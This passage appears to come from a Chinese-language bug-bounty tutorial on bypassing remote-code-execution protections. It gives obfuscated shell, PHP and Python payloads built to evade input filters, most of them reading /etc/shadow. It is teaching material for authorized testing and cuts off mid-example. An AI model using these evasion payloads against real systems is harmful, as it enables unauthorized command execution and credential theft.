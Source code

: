 在为 RCE 漏洞创建 POC 时，很容易超出赏金政策的范围，导致对目标站点造成意外损害。创建 POC 时，请确保你的有效载荷执行的是一个无害命令，并且报告中描述了实现 RCE 所需的步骤。通常，读取一个非敏感文件或在随机路径下创建一个文件就足以证明你的发现。

## 绕过 RCE 保护

许多应用程序已经意识到 RCE 的危险，并采用了输入验证或防火墙来阻止潜在的恶意请求。但编程语言通常非常灵活，这使得我们能够在输入验证规则的范围内工作，从而让我们的攻击得以实现！以下是一些基本的输入验证绕过方法，可以在应用程序阻止你的有效载荷时尝试。

对于 Unix 系统命令，你可以插入引号和双引号，而不改变命令的行为。如果系统在过滤某些字符串时，你还可以使用通配符来替代任意字符。最后，任何空的命令替换结果都可以插入字符串中，而不会改变结果。例如，以下命令都会打印*/etc/shadow*的内容：

```
cat /etc/shadow
cat "/e"tc'/shadow'
cat /etc/sh*dow
cat /etc/sha``dow
cat /etc/sha$()dow
cat /etc/sha${}dow
```

你还可以变换 PHP 中编写相同命令的方式。例如，PHP 允许你将函数名作为字符串进行拼接。你甚至可以对函数名进行十六进制编码，或在命令中插入 PHP 注释，而不改变其结果：

```
/* Text surrounded by these brackets are comments in PHP. */
```

例如，假设你想在 PHP 中执行这个系统命令：

```
system('cat /etc/shadow');
```

以下示例通过将字符串`sys`和`tem`连接来执行一个`system`命令：

```
('sys'.'tem')('cat /etc/shadow');
```

以下示例做了相同的事情，但在命令中间插入了一个空白注释：

```
system/**/('ls');
```

这行代码是`system`命令的十六进制编码版本：

```
'\x73\x79\x73\x74\x65\x6d'('ls');
```

在 Python 中也存在类似的行为。以下在 Python 语法中是等价的：

```
__import__('os').system('cat /etc/shadow')
__import__('o'+'s').system('cat /etc/shadow')
__import__('\x6f\x73').system('cat /etc/shadow')
```

此外，一些服务器会将多个同名参数的值连接成一个单一的值。在这种情况下，你可以将恶意代码拆分成多个部分，以绕过输入验证。例如，如果防火墙阻止包含`system`字符串的请求，你可以将你的 RCE 负载拆分成多个部分，像这样：
